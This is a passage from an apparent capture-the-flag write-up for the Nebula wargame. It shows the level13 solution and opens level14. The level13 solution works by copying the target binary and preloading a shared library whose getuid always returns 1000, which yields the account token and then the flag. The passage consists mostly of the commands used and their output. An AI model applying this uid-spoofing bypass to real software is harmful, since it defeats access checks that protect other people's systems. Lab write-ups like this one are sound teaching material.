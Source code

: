 Since we're not root, we can't change our
[user-ID](https://en.wikipedia.org/wiki/User_identifier) just like
that. I tried to use `LD_PRELOAD` to change the function `getuid` to
only return 1000, but my plans were stopped in it's tracks because
`LD_PRELOAD` is ignored by the loader if we're trying to preload on a
executable we don't own.

However, we can just make a copy of the executable & preload it with our
own version of `getuid`, making our hard work & sweat worthwhile.

{% highlight sh %}
# Define our own function
/tmp/level13 $ cat << EOF > preload.c
int getuid() {
    return 1000;
}
EOF
# Have GCC turn it to a shared library.
/tmp/level13 $ gcc -Wall -fPIC -shared -o preload.so preload.c
# Copy the executable to current directory & execute it,
# Preloading our shared library.
/tmp/level13 $ cp /home/flag13/flag13 .
/tmp/level13 $ LD_PRELOAD=./preload.so ./flag13
your token is b705702b-76a8-42b0-8844-3adabbe5ac58
# Oh hai password
/tmp/level13 $ su flag13 -c getflag
Password:
You have successfully executed getflag on a target account
{% endhighlight %}

Success! =)

* * * 

# [level14](https://exploit-exercises.com/nebula/level14/)

> ##About
>This program resides in /home/flag14/flag14. It encrypts
>input and writes it to standard output. An encrypted token file is
>also in that home directory, decrypt it :)

We have to pipe input into the process & pass along the `-e` flag for
it to spit out encrypted stuff. I also added `&& echo` since the
program does not add a newline character at the end.
